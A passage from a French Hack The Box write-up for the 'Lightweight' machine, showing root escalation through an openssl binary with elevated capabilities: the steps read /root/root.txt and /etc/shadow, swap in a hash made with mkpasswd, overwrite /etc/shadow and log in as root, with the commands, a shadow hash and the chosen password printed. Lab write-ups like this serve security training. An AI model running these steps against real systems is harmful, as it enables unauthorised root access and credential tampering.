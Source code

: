 Comme vous pouvez le voir il y'a un fichier qui se nomme openssl nous avons juste à lire le fichier root.txt avec la commande openssl.

	[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -in /root/root.txt -out /tmp/password.txt
	[ldapuser1@lightweight ~]$ wc -c /tmp/password.txt 
	33 /tmp/password.txt
	[ldapuser1@lightweight ~]$

Nous avons bien le root.txt mais il faut être root c'est le principe d'une box. Donc notre but c'est de lire le fichier /etc/shadow et ensuite de le mettre dans le dossier /tmp, de changer le hash par notre hash avec mkpasswd pour ensuite remplacer /etc/shadow par notre fichier.

Tout d'abord on va crée notre mot de passe :

	root@Seyptoo:~/htb# mkpasswd -m sha-512 seyptoo
	$6$wtB8S4kweNAe37hN$Rttczh0dwMiKu7cAVcSQkTx8yxtG1qEwvBNrFommSsEmrQJ5LJjeOAKFQZw5QGH59VRqkE1bBFXsyrF6sQMS/0
	
Une fois que c'est ok, nous allons tout simplement lire le fichier /etc/shadow et de le mettre dans le dossier /tmp et ensuite de modifier le mot de passe root.

	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl enc -in /etc/shadow -out /tmp/shadow
	[ldapuser1@lightweight tmp]$ vim /tmp/shadow
	root:$6$xQPkHtTmdxu$Tzpw.1d.5bb0TeHyMmZcb4Myg5FIRi4G4SfPDAXE2./vPYspVnMz1xigdAdXy/3GMIygruFPhwRBDX8YV5QzI1:17711:0:99999:7:::
	[...SNIP...]
	
Une fois que la valeur a été modifié nous allons transmettre ce fichier dans le dossier /etc.

	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl enc -in /tmp/shadow -out /etc/shadow
	[ldapuser1@lightweight tmp]$ su - root
	Password: seyptoo
	Last login: Thu May  9 09:01:37 BST 2019 on pts/5
	Last failed login: Thu May  9 09:16:01 BST 2019 from 10.10.12.236 on ssh:notty
	There was 1 failed login attempt since the last successful login.
	[root@lightweight ~]# id
	uid=0(root) gid=0(root) groups=0(root)

![frustrated-computer-baboon](https://media.giphy.com/media/1tHzw9PZCB3gY/giphy.gif)
